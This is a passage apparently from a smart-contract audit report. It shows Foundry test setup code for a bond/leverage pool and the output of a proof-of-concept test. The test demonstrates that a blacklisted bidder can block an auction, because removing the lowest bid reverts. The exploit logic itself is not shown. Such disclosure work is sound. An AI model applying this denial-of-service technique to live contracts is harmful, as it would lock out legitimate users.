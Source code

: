 ```solidity

        vm.startPrank(governance);
        factory.grantRole(factory.POOL_ROLE(), deployer);
        vm.stopPrank();

        return factory;
    }

    function _createPool(PoolFactory factory, address reserveToken, address couponToken) internal returns (Pool) {
        vm.startPrank(deployer);
        uint256 reserveAmount = 1e18;
        deal(reserveToken, deployer, reserveAmount);
        IERC20(reserveToken).approve(address(factory), reserveAmount);

        // create pool
        Pool pool = Pool(
            factory.createPool({
                params: PoolFactory.PoolParams({
                    fee: fee,
                    feeBeneficiary: feeBeneficiary,
                    reserveToken: reserveToken,
                    sharesPerToken: 2_500_000,
                    distributionPeriod: 90 days,
                    couponToken: couponToken
                }),
                reserveAmount: reserveAmount,
                bondAmount: 10 ether,
                leverageAmount: 20 ether,
                bondName: "Bond  WETH",
                bondSymbol: "bond WETH",
                leverageName: "Levered  WETH",
                leverageSymbol: "lev WETH",
                pauseOnCreation: false
            })
        );

        // Deploy the mock price feed
        mockPriceFeed = new MockPriceFeed();
        mockPriceFeed.setMockPrice(3000 * int256(10 ** 8), uint8(8));
        OracleFeeds(factory.oracleFeeds()).setPriceFeed(
            address(pool.reserveToken()), address(0), address(mockPriceFeed), 1 days
        );
        vm.stopPrank();

        return pool;
    }
}
```

Running this test shows how legitimate bidder cannot submit bid, because removing the lowest bid will revert due to the blacklisted submitter.
```solidity
❯ forge test --mt test_AuctionExploit -vv

Ran 1 test for test/G_POC_WBTC.t.sol:PoolTest_FeeCollection
[FAIL: Blacklisted!] test_AuctionExploit() (gas: 1077754809)
Logs:
  Factory created
  Pool created
  Users deposits 1000 WETH
  Amount of USDC to be collected in auction: 75025000000
  Slot size: 75025000
  addressA submitted 999 bids
```